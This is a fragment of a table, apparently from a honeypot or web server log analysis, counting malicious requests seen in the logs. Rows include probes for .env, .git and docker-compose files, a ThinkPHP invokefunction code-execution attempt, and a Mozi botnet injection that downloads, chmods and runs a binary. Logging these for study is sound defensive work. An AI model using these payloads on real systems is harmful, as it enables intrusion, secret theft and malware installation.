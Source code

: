 |  88 |                     3 | GET /index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                          |
|  89 |                     3 | GET /app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                |
|  90 |                     2 | GET /.env.test HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                             |
|  91 |                     2 | GET /mysql/admin/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                         |
|  92 |                     2 | GET /static../.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                  |
|  93 |                     2 | GET http://112.124.42.80:63435/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                 |
|  94 |                     2 | GET http://112.124.42.80:63435/users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                           |
|  95 |                     2 | \x00\x00\x00\x00\x00\x06\x01\x03\xB4\x14\x00\x08                                                                                                                                                                                                                                                                                                                                                    |
|  96 |                     2 | GET http://112.124.42.80:63435/users/users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                     |
|  97 |                     2 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                               |
|  98 |                     2 | \x16\x03\x01\x01                                                                                                                                                                                                                                                                                                                                                                                    |
|  99 |                     2 | GET /.env.template HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                         |
| 100 |                     2 | GET /.git/HEAD HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                             |
| 101 |                     2 | GET /docker-compose.prod.yml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                               |